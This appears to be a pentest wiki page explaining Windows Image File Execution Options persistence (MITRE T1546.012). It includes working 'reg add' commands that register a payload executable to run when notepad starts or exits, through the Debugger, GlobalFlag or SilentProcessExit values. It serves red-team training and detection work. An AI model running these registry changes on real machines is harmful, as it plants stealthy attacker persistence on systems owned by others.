 ```yaml
---
description: >-
  MITRE ATT&CK™ Event Triggered Execution: Image File Execution Options
  Injection - Technique T1546.012
---
```


# Image File Execution Options (IFEO) Persistence

## Theory

**Image File Execution Options (IFEO)** is a Windows registry key designed for developers to attach a debugger to an application and enable debugging features such as `GlobalFlag`. However, this functionality can be abused for persistence by specifying an arbitrary executable as the debugger for a target process or by using the `MonitorProcess` feature.

In both cases, code execution is achieved, with the trigger being either the creation of the specified process or the termination of an application. Notably, implementing this technique requires Administrator privileges, as modifications must be made under the `HKLM` registry hive.

## Practice

{% hint style="danger" %}
By editing Image File Execution Options, the original exe will not start
{% endhint %}

{% tabs %}
{% tab title="GlobalFlag" %}
With the GlobalFlag persistence technique, payload is triggered when the target application is closed.

```powershell
#Enables the silent exit monitoring for the notepad process.
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512

#Enables the Windows Error Reporting process (WerFault.exe) which will be the parent process of the “MonitorProcess”
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1

#Set up the arbitrary payload
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\payload.exe"
```
{% endtab %}

{% tab title="Debugger" %}
Using the debugger technique, we can define a binary that will be attached to the targeted process

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "C:\tmp\payload.exe"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://pentestlab.blog/2020/01/13/persistence-image-file-execution-options-injection/" %}

{% embed url="https://attack.mitre.org/techniques/T1546/012/" %}
